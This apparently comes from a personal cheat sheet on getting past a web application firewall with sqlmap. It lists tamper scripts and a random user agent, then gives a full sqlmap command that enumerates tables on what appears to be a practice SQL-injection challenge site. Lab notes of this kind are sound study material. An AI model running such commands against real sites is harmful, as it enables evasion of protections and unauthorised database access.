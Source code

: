 # WAF Bypass

## 2 things you need:
    1) --tamper=between,randomcase,space2comment
    2) --random-agent

## Example:
sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables
